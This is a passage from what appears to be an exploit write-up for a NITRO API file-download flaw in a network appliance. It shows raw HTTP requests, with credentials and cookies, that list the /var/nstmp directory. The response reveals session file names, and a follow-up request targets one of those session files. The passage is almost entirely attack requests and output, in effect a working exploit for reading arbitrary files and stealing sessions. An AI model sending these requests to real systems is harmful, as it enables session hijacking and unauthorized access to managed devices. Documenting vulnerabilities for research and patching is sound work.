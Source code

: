 ### 0x05 Read Dir

> request

    POST /rapi/filedownload?filter=path:%2Fvar%2Fnstmp HTTP/1.1
    Host: www.0-sec.org:9080
    User-Agent: python-requests/2.20.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: close
    Content-Type: application/xml
    X-NITRO-USER: N6RRf049
    X-NITRO-PASS: FcdXbqXr
    rand_key: 32946879.1594556816473396
    Cookie: SESSID=eb1780b044676f588dbcc2a6305f6b57; is_cisco_platform=0; startupapp=neo
    Content-Length: 31

    <clipermission></clipermission>

> response

    HTTP/1.1 406 Not Acceptable
    Date: Sun, 12 Jul 2020 12:27:04 GMT
    Server: Apache
    X-Frame-Options: SAMEORIGIN
    Expires: -1
    Cache-Control: private, must-revalidate, post-check=0, pre-check=0
    Pragma: private
    Content-Disposition: attachment;filename="nstmp"
    Accept-Ranges: bytes
    Content-Length: 512
    X-XSS-Protection: 1; mode=block
    Keep-Alive: timeout=15, max=98
    Connection: Keep-Alive
    Content-Type: application/octet-stream

    ...
    sess_6680400dad3be5585d4ac9880d5f634f...
    sess_774dd8a02a254bd09c480cd0ba244598...
    sess_6c5c31300c22b200f0273e7a13be47cb....

### 0x06 Read Session

> resquest

    POST /rapi/filedownload?filter=path:%2Fvar%2Fnstmp%2Fsess_6c5c31300c22b200f0273e7a13be47cb HTTP/1.1
    Host: www.0-sec.org:9080
    User-Agent: python-requests/2.20.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: close
    Content-Type: application/xml
    X-NITRO-USER: N6RRf049
    X-NITRO-PASS: FcdXbqXr
    rand_key: 32946879.1594556816473396
    Cookie: SESSID=eb1780b044676f588dbcc2a6305f6b57; is_cisco_platform=0; startupapp=neo
    Content-Length: 31
